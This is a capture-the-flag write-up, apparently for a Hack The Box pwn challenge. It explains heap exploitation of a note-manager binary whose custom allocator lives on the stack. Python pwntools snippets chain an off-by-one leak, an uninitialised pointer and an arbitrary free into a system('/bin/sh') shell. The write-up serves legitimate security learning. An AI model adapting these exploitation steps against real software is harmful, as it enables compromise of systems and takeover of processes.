

**This isn't good writeup, since It was not meant to be published when I wrote it**
It's here to act like a hello world post.

## Init
The only thing we are given is an ELF 64 bit binary.

```bash
[*] '/mnt/hgfs/HTB/Challs/Pwn/auth_or_out/auth-or-out'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Binary is fully loaded with mitigations.

## VR
Upon first look we have a heap note application.
But there is a twist..

There are custom heap functions and the heap itself is loaded onto the stack.


There is 0x3810 of empty space on the stack.

There are some custom structs:


We can do 4 operations (and exit):
1. Add author - which will add an author struct and alloc a new chunk for author.Note pointer
2. Modify author - We can select author based on it's index in an array and modify it's contents
3. Print author - We can print everything from author
4. Delete author - We can delete it based on it's index

### Off by one leak
If we want to modify our author struct we can do so using second option.
Within this function we can change name and surname of our author.
However when overwriting surname there is 1 more byte to be overwritten.

Thanks to this we can overwrite surname up until Note pointer, which we can use to leak stack.


### Unutilized memory for note pointer
Now this one took me few hours to see.

During initializing the author struct we are prompted for the size of our note.
We can choose pretty much any number but we can only type max 256 characters without any overflows.


The thing here is that the Note pointer is overwritten after we call the tiny alloc.
But before this logic this check happens:


So if we supply zero as our size we won't get any note, but the pointer is also unutilized and we can therefore create fake chunk overflow into it with our note, change the pointer to point anywhere and read whatever we want.

## Arbitrary free

Now thanks to the vulnerability above we can choose any location we want to free and put into a free bin. That means our next chunk could be allocated at our chosen memory location.
However in this case we use `ta_alloc` which won't let us free any memory which looks like a chunk. But we could free our chunk and replace it with our custom one.

## Exploit

### Leakeage

First what we can do is prepare our first chunk which we are gonna modify to overflow into Note pointer and print it. This will give us stack pointer for free.

```python
leak_author = add_author(b"X"*16, b"X"*16, b"18446744073709551615", b"7", b"X"*8)
modify_author(leak_author, b"X"*16, b"A"*17, b"123456")

leak_raw = print_author(leak_author)[2].split(b"A"*16)[1]
leak_ptr = u64(leak_raw.ljust(8,b"\x00"))
log.info("Stack pointer: "+hex(leak_ptr))
```

Now there is also a pointer to a function which prints the note. To leak this we need to prepare another fake chunk. 
This chunk is going to be after our first leak chunk.
```python
fake_chunk = add_author(b"B"*16, b"B"*16, b"18446744073709551615", b"7", b"B"*8)
```

**The integer used for age is set to max so we get maximum value 0xffff.....** we could also just overflow more but whatever.

Now we free both of them and finally add last chunk which needs to have 48 bytes as note size to overflow into the `fake_chunk`.

This way we can print the author and get the function pointer, essentially defeating PIE.

Finally we know stack values, binary values and the only thing we don't know is libc. This can be easily done using our unutilized pointer. 

First we create 2 chunks after each other
```python
dummy = add_author(b"A"*16, b"A"*16, b"0", b"7", b"A"*8)
dummy2 = add_author(b"A"*16, b"A"*16, b"0", b"7", b"A"*8)
```
This will give us 0x80 bytes of space.

Now we free both of them.
```python
free_author(dummy)
free_author(dummy2)
```

Finally we need to create another chunk which will have a note that will overflow into the note ptr.
So the note must be size 8 (for alignment) + 32 (name and surname) and finally 8 bytes as pointer.
Payload will be pointer to **got.plt** for function **read**. This ofcouse could be any function to leak from libc.
```python
crafted_arbitrary_read_chunk = add_author(b"X"*16, b"X"*16, b"0", size, payload)
```

Using this we can calculate libc base and potential system address.

### RCE

Now finally we have everything we need to exploit this. Since we control free bin we can choose our write location. Probably the best thing we can do is overwrite another chunk, because there is free code execution using `NotePrint` function pointer.
We can overwrite it to `system` and the note string to be for example `/bin/sh` which will grant us free shell.

In case we are brave we could also just do ROP or whatever we want at this point, since we have arbitrary write primitive.

#### Arbitrary write

For arbitrary write we start with the same allocations as the technique from above. But let's first allocate a chunk between them.

```python
corrupt_list_chunk = add_author(b"a"*16, b"a"*16, b"0", b"0", b"")
```

This chunk is very important, because when blocks of memory are put into the free bin, the lower addresses are taken first. Which means if we have:

```c

---------------------
		BLOCK
---------------------

---------------------
		BLOCK
---------------------

---------------------
		BLOCK
---------------------

```

And we free the first and the last.

```c

---------------------
		BLOCK (FREE)  --------------> Free bin head
---------------------

---------------------
		BLOCK
---------------------

---------------------
		BLOCK (FREE)  --------------> Next Free block
---------------------

```

Thanks to this if we allocate another author now the actual structure chunk will be put into first block's space. We don't want that, because we have no control over the function pointers etc.

Therefore we need scenario like this:

```c

---------------------
		BLOCK (FREE)  --------------> Next Free block
---------------------

---------------------
		BLOCK
---------------------

---------------------
		BLOCK (FREE)  --------------> Free bin head
---------------------

```

This we can do by allocating one more chunk after we create our free primitive

```c

---------------------
		BLOCK          -----------------> Free this block first
---------------------

---------------------
		BLOCK
---------------------

---------------------
	Free primitive
		BLOCK
		Note * -------------
---------------------      |
						   |
---------------------      |
		BLOCK  <------------
---------------------

```

So now we free first block, then the third, which will also free the fourth - which is still active in the memory. Creating this:

```c

---------------------
		BLOCK (FREE)     -----------------> Free head
---------------------

---------------------
		BLOCK
---------------------

---------------------
		BLOCK (FREE)
---------------------      
						   
---------------------      
BLOCK (FREE BUT ACTIVE)
---------------------

```

Finally we allocate a new chunk which will go into the first freed block and finally note which will cover both third and fourth block.

So now we just construct the free primitive:

```python
log.info("Preparing chunk that will corrupt free list")
# System chunk
# Must be zero sized to properly align linked list
corrupt_list_chunk = add_author(b"a"*16, b"a"*16, b"0", b"0", b"")

log.info("Creating dummy chunks for arbitrary free")
# Creating 2 chunks to align memory
dummy = add_author(b"A"*16, b"A"*16, b"0", b"7", b"A"*8)
dummy2 = add_author(b"A"*16, b"A"*16, b"0", b"7", b"A"*8)

log.info("Freeing these chunks")
# Freeing them
free_author(dummy)
free_author(dummy2)

# Creating chunk which will get the arbitrary free pointer
size = b"48" # 8 bytes to align to 16 bytes, 32 to get over surname and name and finally pointer 8
system_chunk_addr = stack_ptr + 0xf0 # address for our system chunk (top chunk)
corrupt_list_chunk_packed = p64(system_chunk_addr)
payload = b"X"*40 + corrupt_list_chunk_packed

log.info("Overwriting dummy chunk for arb free")
arb_free_chunk = add_author(b"X"*16, b"X"*16, b"0", size, payload)

# Now we need to free this chunk and allocate one smaller
free_author(arb_free_chunk)

# To offset our next chunk
dummy = add_author(b"A"*16, b"A"*16, b"0", b"7", b"A"*8)

# This must be zero size long note
free_bomb = add_author(b"A"*16, b"A"*16, b"0", b"0", b"")
```

Finally we have everything ready except the last chunk
```python
# Keep zero sized!
system_chunk = add_author(b"a"*16, b"a"*16, b"0", b"0", b"")
```

This must be zero sized, otherwise we won't overflow into the chunk.

So we execute the plan and free the `corrupt_list_chunk` and `free_bomb`:
```python
free_author(corrupt_list_chunk)
free_author(free_bomb)
```

Now the next chunk we allocate will be at the first place - we don't care about it. But the note will overflow into our fourth.
This means we need to construct this payload:
- Random author chunk
- author.Name + author.Surname of random data
- valid pointer to `/bin/sh` string (which will be after this chunk)
- random age value
- valid pointer to `system()` in libc
- `/bin/sh` string
```python

prefix = b"\x90" * 32 + p64(0xdeadbeefbeefdead) + b"\xff" * 8 + p64(0xdeadbeefbeefdead)
bin_sh_ptr = p64(stack_ptr + 0x128)
payload = prefix + b"\x80" * 32 + bin_sh_ptr + p64(0xdeadbeefbeefdead) + p64(system) + b"/bin/sh\x00"
size = len(prefix) + len(payload)

size_b = bytes(str(size),'UTF-8')
log.info("Payload size: "+hex(size))
write_chunk = add_author(b"z"*16, b"z"*16, b"0", size_b, payload)
```

Now we just have to call `print_author` with our system chunk and we are done.
```python
p.sendlineafter(b"Choice: ",b"4")
p.sendlineafter(b"Author ID: ",system_chunk)
```



The full exploit can be found [here](./dstr.py).
